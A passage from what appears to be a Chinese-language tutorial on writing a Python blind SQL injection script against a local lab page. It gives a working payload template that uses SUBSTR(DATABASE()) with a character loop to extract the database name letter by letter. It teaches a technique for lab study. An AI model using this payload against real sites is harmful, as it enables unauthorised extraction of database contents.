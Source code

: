 > <img src="./IMG3/10.png">

观察这个请求包，可以得知使用的是`POST`请求方式，请求的`url`是`localhost/sql-injection/blind.php`，请求体中的参数名为`username`。知道这些信息，我们就能着手编写注入脚本了

- 编写脚本

首先指定攻击的`url`为`http://localhost/sql-injection/blind.php`

```py
# python

url = 'http://localhost/sql-injection/blind.php'
```

然后是定义一些需要的变量，如数据库名的长度，字符集，注意这里需要导入`string`包

```py
import string

length = 4
charset = string.ascii_letters + string.digits
```

然后就可以构建payload

```py
for i in range(1, length + 1):
    for char in charset:
        payload = f"1' AND SUBSTR(DATABASE(),{i},1)='{char}'#"
```

最后根据响应体中是否包含`输入的用户名不存在`这句话来判断是否注入成功
